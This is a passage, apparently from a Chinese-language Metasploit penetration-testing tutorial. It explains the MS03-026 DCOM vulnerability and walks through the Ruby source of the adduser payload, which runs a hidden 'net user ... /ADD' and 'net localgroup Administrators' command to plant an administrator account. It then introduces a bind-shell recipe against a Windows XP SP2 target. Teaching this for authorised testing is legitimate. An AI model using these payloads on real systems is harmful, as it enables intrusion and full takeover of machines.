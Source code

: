 此接口处理由客户端计算机发送到服务器的 DCOM 对象激活请求。成功利用此漏洞的攻击者将能够在受影响的系统上以本地系统权限运行代码。攻击者将能够对系统采取任何操作。这包括安装程序、查看/更改/删除数据或创建具有完全权限的新帐户。

有关此漏洞的详细信息，请访问 Microsoft 安全公告的以下链接：

[http://technet.microsoft.com/en-us/security/bulletin/ms03-026](http://technet.microsoft.com/en-us/security/bulletin/ms03-026)

现在为了理解 `adduser`有效载荷的工作原理，我们将分析有效载荷的 ruby 代码。让我们浏览到有效负载位置：

```
root@bt:~# cd /pentest/exploits/framework3/modules/payloads/singles/windows
root@bt:/pentest/exploits/framework3/modules/payloads/singles/windows# less adduser.rb 
```

我们感兴趣的代码的以下部分：

```
# Register command execution options
register_options(
[
OptString.new('USER', [ true, "The username to create", "metasploit" ]),
OptString.new('PASS', [ true, "The password for this user", "metasploit" ]),
], self.class)
# Hide the CMD option
deregister_options('CMD')
end
#
# Override the exec command string
#
def command_string
user = datastore['USER'] || 'metasploit'
pass = datastore['PASS'] || ''
if(pass.length > 14)
raise ArgumentError, "Password for the adduser payload must be 14 characters or less"
end
return "cmd.exe /c net user #{user} #{pass} /ADD && " +
"net localgroup Administrators #{user} /ADD"
end

```

您可以通过添加了 `#`符号的注释来理解代码。代码很简单，不需要解释。它首先注册用户名和密码的值。然后，当有效负载被执行时，它继续隐藏 `CMD`功能，使其不会出现在目标屏幕上。然后，代码覆盖 `windows/exec`有效载荷以传递参数值，并启动一个隐藏命令提示符以在后台执行。

您可以使用代码并进行自己的更改。这将帮助您深入挖掘有效负载的世界。

# 将外壳绑定到目标进行远程访问

在前面的配方中，我们分析了如何利用 Windows SP2 机器并添加新的用户帐户。但连接在执行攻击后立即终止。在这个方法中，我们将向前迈进一步，将一个 shell 绑定到目标上，这样我们就可以与目标建立远程连接并获得对它的控制。该过程与前一配方中提到的过程类似。我们所要做的就是使用不同的有效载荷，在目标机器上为我们发射炮弹。

## 准备好了吗

我们将再次启动我们的 `msfconsole`，我们的目标与 Windows XP SP2 机器配方上的*渗透测试相同。我们将使用相同的 `dcom`漏洞，然后这次使用不同的负载将外壳绑定到目标。*
